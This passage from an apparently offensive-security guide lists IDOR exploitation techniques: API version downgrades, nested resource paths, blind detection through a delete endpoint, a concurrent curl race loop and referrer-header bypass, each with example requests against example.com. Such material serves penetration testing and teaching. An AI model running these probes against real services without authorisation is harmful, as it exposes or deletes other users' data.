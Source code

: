 ### 6. API Version Bypassing

```
# Current API version might have proper access controls
GET /api/v2/users/1338/profile   # Returns 403 Forbidden

# Try an older API version
GET /api/v1/users/1338/profile   # May succeed if access controls were added later
```

### 7. Nested Resource Exploitation

```
# Access through parent-child relationship
GET /api/organizations/5/users/1338    # May work if only checking organization access
```

## Advanced IDOR Exploitation

### Blind IDOR Detection

When you can't directly see the response data:

```
# Original request (returns no useful content)
GET /api/users/1337/delete     # Returns {"status":"success"}

# Try with another ID
GET /api/users/1338/delete     # If also returns success, likely vulnerable
```

### IDOR via Race Conditions

```
# Scenario: Restrictions applied after initial access check

# Step 1: Start multiple concurrent requests
for i in {1..20}; do
  curl -H "Authorization: Bearer $TOKEN" \
       https://example.com/api/documents/restricted_doc \
       -o "output_$i.txt" &
done
```

### Bypassing Referrer Checks

```
# If server validates Referer header
GET /api/users/1338/profile
Referer: https://example.com/users/1337/

# Try without Referer
GET /api/users/1338/profile
# No Referer header
```
